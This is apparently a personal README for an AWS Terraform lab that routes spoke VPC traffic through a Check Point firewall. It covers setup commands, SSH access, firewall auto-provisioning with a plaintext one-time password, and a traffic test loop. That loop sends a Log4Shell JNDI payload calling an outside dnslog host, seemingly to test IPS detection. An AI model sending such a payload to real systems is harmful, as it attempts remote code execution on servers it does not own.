 # AWS lab with App spokes, TGW and CHKP VPC

Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

tf init

tf plan
tf apply -auto-approve

# CP management console
ssh admin@34.247.143.157 -i C:\Users\mkoldov\.ssh\azureshell.key


# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20

autoprov_cfg set template -tn gwlb-configuration -ia -ips

watch -d api status

tail -f /var/log/CPcme/cme.log

# mgmt ip 10.255.77.227
# cplic - required for IPS!

#connectivity test from spoke hosts
while true; do curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!
